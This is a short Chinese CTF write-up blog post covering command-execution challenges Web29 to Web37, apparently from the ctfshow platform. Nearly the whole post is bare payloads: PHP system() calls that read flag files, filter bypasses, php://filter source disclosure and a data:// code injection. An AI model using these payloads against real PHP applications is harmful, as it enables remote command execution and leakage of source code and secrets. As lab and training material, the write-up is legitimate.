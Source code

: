 ```yaml
---
title: Web29-124命令执行
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210427144151.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-07-26 16:18:52
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1160485.png
---
```

命令执行就很有意思了~
简单的就不赘述了，可能对新手不太友好。

## Web29
    c=system('cat fla*');

## Web30
    c=echo `cat fl*`;

## Web31
    c=echo%09`tac%09fla*`%3B

## Web32
    c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

## Web33
	c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
    
## Web34
	c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

## Web35
    c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

## Web36
    c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

## Web37
    c=data://text/palin,<?php system('cat fl*');?>
